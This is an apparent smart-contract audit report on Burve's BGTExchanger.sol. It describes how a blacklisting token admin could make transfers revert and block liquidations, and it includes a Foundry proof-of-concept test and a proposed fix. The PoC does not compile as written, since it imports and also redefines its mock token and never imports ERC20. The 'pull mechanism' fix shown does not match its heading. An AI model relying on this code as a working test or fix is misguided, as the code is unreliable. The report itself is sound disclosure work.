 Straight Admiral Iguana

Medium

# Samsecyu-Attacker Will Prevent Liquidation and Affect Protocol Solvency Due to Push Transfers in BGTExchanger.sol::exchange and BGTExchanger.sol::withdraw

### Summary

The use of push-based token transfers in `**BGTExchanger.sol`** will cause a liquidation failure for the protocol as a **token admin as an attacker will blacklist the Diamond Proxy** or recipient, causing TransferHelper.safeTransferFrom or safeTransfer to revert during collateral conversion or reward distribution.



### Root Cause

In [ BGTExchanger.sol:86](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/integrations/BGTExchange/BGTExchanger.sol#L86C1-L86C69) and l[ine 40](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/integrations/BGTExchange/BGTExchanger.sol#L39C1-L40C70), the use of TransferHelper.safeTransferFrom and safeTransfer for push-based transfers is a mistake as tokens with deny lists (e.g., USDC) can revert if the Diamond Proxy or recipient is blacklisted, halting liquidation processes.



### Internal Pre-conditions

1. The protocol needs to integrate BGTExchanger.exchange or withdraw in liquidation processes as has alread been implemented in [ValueFacet.sol ](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/multi/facets/VaultFacet.sol)to convert collateral or distribute rewards.
2. Admin needs to call `setRate(address inToken, uint256 rateX128)` to set `rate[inToken]` to be other than 0 for a token with a deny list (e.g., USDC).
3. Admin needs to call `addExchanger(address caller)` to set isExchanger[Diamond Proxy] to be true for the Diamond Proxy address.



### External Pre-conditions

1. Token admin (e.g., Circle for USDC) needs to blacklist the Diamond Proxy address, causing safeTransferFrom to revert.
2. Token admin **needs to blacklist the liquidator’s recipient address, causing safeTransfer in withdraw to revert.**



### Attack Path

1. Token admin blacklists the Diamond Proxy address for a deny-listed token (e.g., USDC) used as `inToken`.
2. Liquidation process in `ValueFacet.sol` calls SimplexLib.bgtExchange, invoking BGTExchanger.exchange to convert USDC collateral to BGT.
3. exchange calls TransferHelper.safeTransferFrom, which reverts due to the blacklist.
4.  Liquidation transaction fails, preventing debt repayment.
5. Alternatively, liquidator calls `BGTExchanger.withdraw` to claim BGT rewards, but safeTransfer reverts if the recipient is blacklisted.
6. Liquidatable position remains unliquidated, accruing bad debt.



### Impact

The protocol cannot complete liquidations, leading to bad debt accumulation. The token admin (attacker) does not gain financially but causes a griefing attack, disrupting protocol solvency.



### PoC

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.27;

import {Test} from "forge-std/Test.sol";
import {BGTExchanger} from "../src/multi/BGTExchanger.sol";
import {MockERC20WithBlacklist} from "./mocks/MockERC20WithBlacklist.sol";

contract BGTExchangerDenyListTest is Test {
    BGTExchanger exchanger;
    MockERC20WithBlacklist usdc;
    address diamond = address(0x123);
    address user = address(0x456);

    function setUp() public {
        usdc = new MockERC20WithBlacklist("USDC", "USDC", 6);
        exchanger = new BGTExchanger(address(usdc));
        vm.prank(exchanger.owner());
        exchanger.addExchanger(diamond);
        vm.prank(exchanger.owner());
        exchanger.setRate(address(usdc), 1 << 128);
        vm.prank(user);
        usdc.mint(diamond, 1000e6);
        vm.prank(diamond);
        usdc.approve(address(exchanger), type(uint256).max);
        vm.prank(user);
        exchanger.fund(1000e6);
    }

    function test_deny_list_reverts_liquidation() public {
        // Blacklist Diamond Proxy
        usdc.blacklist(diamond);
        
        // Simulate liquidation calling exchange
        vm.prank(diamond);
        vm.expectRevert("BLACKLISTED");
        exchanger.exchange(address(usdc), 100e6);

        // Blacklist recipient for withdraw
        usdc.blacklist(user);
        vm.prank(diamond);
        usdc.unblacklist(diamond); // Allow exchange
        exchanger.exchange(address(usdc), 100e6);
        vm.prank(diamond);
        vm.expectRevert("BLACKLISTED");
        exchanger.withdraw(user, 100e6);
    }
}

contract MockERC20WithBlacklist is ERC20 {
    mapping(address => bool) public blacklisted;
    uint8 private _decimals;

    constructor(string memory name, string memory symbol, uint8 decimals) ERC20(name, symbol) {
        _decimals = decimals;
    }

    function decimals() public view override returns (uint8) {
        return _decimals;
    }

    function blacklist(address account) public {
        blacklisted[account] = true;
    }

    function unblacklist(address account) public {
        blacklisted[account] = false;
    }

    function mint(address to, uint256 amount) public {
        _mint(to, amount);
    }

    function transfer(address to, uint256 amount) public override returns (bool) {
        require(!blacklisted[msg.sender] && !blacklisted[to], "BLACKLISTED");
        return super.transfer(to, amount);
    }

    function transferFrom(address from, address to, uint256 amount) public override returns (bool) {
        require(!blacklisted[from] && !blacklisted[to], "BLACKLISTED");
        return super.transferFrom(from, to, amount);
    }
}
```

### Mitigation

**Implement Pull Mechanism:**
```solidity

function setRate(address inToken, uint256 rateX128) external {
    AdminLib.validateOwner();
    require(!hasDenyList(inToken), "TokenHasDenyList");
    rate[inToken] = rateX128;
}

```
